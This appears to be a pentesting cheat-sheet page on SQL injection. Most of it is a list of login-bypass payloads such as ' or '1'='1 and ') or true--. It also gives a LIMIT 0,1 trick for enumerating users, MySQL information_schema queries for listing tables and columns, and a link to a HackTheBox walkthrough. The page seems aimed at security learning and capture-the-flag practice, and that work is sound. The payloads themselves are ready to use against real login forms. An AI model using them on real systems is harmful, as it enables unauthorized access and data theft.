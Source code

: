 # SQL Injection

## Login Bypasses

For login forms, if they're vulnerable to SQL Injection, the options can range from data exfiltration, to simply bypassing the login forms entirely. Note that the comment type for SQL databases can vary, so it's worth trying both `--` and `#`.  A number of the below are worth trying:

```
' or '1'='1
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

**Source**: [https://xapax.gitbooks.io/security/content/sql-injections.html](https://xapax.gitbooks.io/security/content/sql-injections.html)

If the backend code is only expecting a single result from the query, a number of the above will fail.  If this is the case then using `LIMIT 0,1` at the end of the expression will reduce the result returned to a single element.  You can then vary the first parameter to enumerate different users.

## Database Enumeration

### MYSQL

```sql
select column_name from information_schema.columns
select table_name from information_schema.tables 
```

## **Examples**

[HackTheBox - Charon](https://www.youtube.com/watch?v=_csbKuOlmdE)

